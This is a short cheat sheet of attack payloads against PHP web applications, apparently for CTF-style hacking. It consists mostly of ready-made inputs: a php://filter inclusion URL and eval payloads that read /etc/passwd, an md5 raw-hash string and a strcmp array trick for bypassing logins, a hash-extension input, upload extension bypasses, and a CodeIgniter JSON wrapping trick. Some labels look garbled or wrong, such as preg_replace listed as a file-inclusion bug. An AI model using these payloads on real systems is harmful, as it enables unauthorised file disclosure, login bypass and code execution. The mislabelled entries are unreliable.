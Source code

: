## PHP

- `preg_replace`

  - Local File Inclusion bug.
    - [http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)

- `phpdc.phpr`

  - Decompile if used `bcompile`.

- `php://filter`

  ```txt
  http://target.com/index.php?m=php://filter/convert.base64-encode/resource=/etc/passwd
  ```

- `md5('value', true);`

  List of bypass strings

  - `129581926211651571912466741651878684928`

- `strcmp`

  List of bypass strings
  - `?password[]=123`

- `eval`

  - `phpinfo();`
  - `var_dump(scandir('/'));`
  - `var_dump(file_get_contents('/etc/passwd'));`

- [`Hash extender`](https://github.com/iagox86/hash_extender)
  - `username=guest&date=2025-04-05T20:02:28+0800&secret_length=8&`


### File extension bypass

  - `.php5`
  - `.php.pdf`


### Codeigniter

  - **Add "root" head into json**
      - `{"username":"admin","password":"123"}` -> `{"root":{"username":"admin","password":"123"}}`
